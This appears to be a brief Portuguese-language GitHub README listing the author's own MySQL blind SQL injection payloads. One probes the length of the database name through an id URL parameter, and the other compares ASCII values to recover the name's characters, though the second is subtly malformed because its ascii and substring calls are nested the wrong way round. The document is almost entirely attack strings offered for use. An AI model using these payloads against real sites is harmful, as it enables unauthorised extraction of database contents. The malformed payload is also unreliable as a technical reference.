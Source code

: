 # Minhas-payload-sql-injection

# Esse repositório não é cheat sheet de sql injection.

#==============Payload MySQL==============

**EXTRAINDO número de caracteres DA DATABASE.**

  ?id=1' AND LENGTH(DATABASE()) > 2 --+
  
**EXTRAINDO OS CARACTERES DO BANCO DE DADOS EM ASCII.**

  ?id=1' AND substring(ascii(DATABASE()),1,8) >= 115--+-